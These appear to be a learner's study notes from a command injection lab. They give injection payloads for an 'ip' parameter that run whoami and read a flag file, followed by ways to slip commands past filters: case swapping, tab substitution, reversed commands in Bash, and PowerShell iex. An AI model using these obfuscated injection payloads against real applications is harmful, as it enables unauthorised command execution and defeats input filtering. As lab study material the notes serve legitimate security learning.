***LAB:*
`ip=10.10.16.13%0aw'h'o'am'i`
`ip=10.10.16.13%0ac'a't${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt`


## Advanced Command Obfuscation

### Case Manipulation

#### Windows (not case sensitive)
```PowerShell
WhOaMi
```

#### Linux (case sensitive)
```Shell
$(tr "[A-Z]" "a-z"<<<"WhOaMi")
```

##### Replace spaces with tabs (`%09`)
```Shell
$(tr%09"[A-Z]"%09"a-z"<<<"WhOaMi")
```
![[Pasted image 20230209102014.png]]

#### Linux - Additional Option
```Shell
$(a="WhOaMi";printf %s "${a,,}")
```
Be sure to replace spaces with non-filtered characters (e.g., `%09`)

### Reversed Commands

#### Get the reversed string of our command in our terminal
```Shell
echo 'whoami' | rev
```

#### Execute the original command by reversing it in a sub-shell
```Shell
$(rev<<<'imaohw')
```
![[Pasted image 20230209102410.png]]
***Tip: If you wanted to bypass a character filter with the above method, you'd have to reverse them as well, or include them when reversing the original command.*

#### Reversed command in Windows
```PowerShell
"whoami"[-1..-20] -join ''
```

#### Execute a reversed string in Windows
```PowerShell
iex "$('imaohw'[-1..-20] -join '')"
```
